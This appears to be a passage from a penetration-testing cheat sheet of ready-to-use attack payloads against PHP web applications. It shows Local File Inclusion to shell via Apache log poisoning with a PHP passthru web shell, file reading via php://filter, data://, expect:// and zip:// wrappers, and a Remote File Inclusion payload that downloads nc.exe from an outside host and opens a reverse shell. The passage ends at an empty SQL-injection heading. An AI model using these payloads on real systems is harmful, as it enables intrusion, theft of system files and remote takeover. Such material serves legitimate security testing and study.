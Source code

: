 ### Local File Inclusion to Shell <a id="local-file-inclusion-to-shell"></a>

```bash
nc 192.168.1.102 80
GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: 192.168.1.102
Connection: close​

# Then send as cmd payload via http://192.168.1.102/index.php?page=../../../../../var/log/apache2/access.log&cmd=id
```

### Local File Inclusion: Reading Files <a id="local-file-inclusion-reading-files"></a>

```bash
file:///etc/passwd​

http://example.com/index.php?page=php://input&cmd=ls
    POST: <?php system($_GET['cmd']); ?>
    
http://192.168.2.237/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input
    POST: <?php system('uname -a');die(); ?>​
    
expect://whoami
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=&cmd=id
http://10.1.1.1/index.php?page=data://text/plain,%3C?php%20system%28%22uname%20-a%22%29;%20?%3E

​# ZIP Wrapper
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;   
mv payload.zip shell.jpg;    
http://example.com/index.php?page=zip://shell.jpg%23payload.php​

# Loop through file descriptors
curl '' -H 'Cookie: PHPSESSID=df74dce800c96bcac1f59d3b3d42087d' --output -
```

### Remote File Inclusion Shell: Windows + PHP <a id="remote-file-inclusion-shell-windows-php"></a>

```php
<?php system("powershell -Command \"& {(New-Object System.Net.WebClient).DownloadFile('http://10.11.0.245/netcat/nc.exe','nc.exe'); cmd /c nc.exe 10.11.0.245 4444 -e cmd.exe\" }"); ?>
```

### SQL Injection to Shell or Backdoor <a id="sql-injection-to-shell-or-backdoor"></a>
